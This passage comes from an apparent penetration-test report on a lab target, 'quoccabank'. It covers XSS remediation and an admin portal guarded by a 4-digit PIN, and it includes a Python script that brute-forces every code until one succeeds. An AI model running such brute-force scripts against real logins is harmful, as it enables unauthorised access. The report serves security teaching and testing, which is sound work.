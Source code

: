 <u>Remediation:</u>

The XSS vulnerability can be remediated by ensuring that file content is saved and rendered as raw text instead of HTML. This includes sanitising user input, such as through HTML encoding untrusted data such as file content. This ensures that user input is not interpreted as HTML and prevents arbitrary JavaScript execution.



## Vulnerability 3: Insecure authentication in files.quoccabank.com/admin

<u>Vulnerability Details:</u>

Although the admin endpoint for files.quoccabank.com requires authentication before access to the page is given, it can be easily brute-forced to access sensitive data behind the insecure method of authentication. 

Vulnerability Severity: Critical

<u>Proof of Concept / Steps to Reproduce:</u>

Upon navigating to the admin portal, it can be seen that the page is protected by a 4 digit access code. Using Burp Suite, the browser's network tab or analysing the page's source code, it is evident that a POST request is made to the same website with the entered pin every time a user enters an access code and clicks on the GO button. Knowing the structure of the request, a script can be run to automate the brute-force process for trying every 4-digit access code combination in order to bypass the authentication, such as in the Python script below. 

```python
# Generate all possible combinations of 4 digit codes
from itertools import product
DIGITS = [str(i) for i in range(10)]
NUM_DIGITS = 4
codes = list(product(DIGITS, repeat=NUM_DIGITS))

# Brute-force authentication by trying all codes
import requests
URL = 'https://files.quoccabank.com/admin'
for a, b, c, d in codes:
  # Send code as a POST request to URL
  data = {'pin': a + b + c + d}
  resp = requests.post(URL, data=data, cert=(CERT_PATH, KEY_PATH))
  if len(resp.text) != 198:
    # Print code used to bypass authentication
    print(data)
    exit()
```

In less than two minutes, the program indicated that 1024 was the expected access code to unlock the admin portal. As evident in the image below, entering this code provided access to the contents behind the admin authentication. 

![Files 3](images/files3.png)
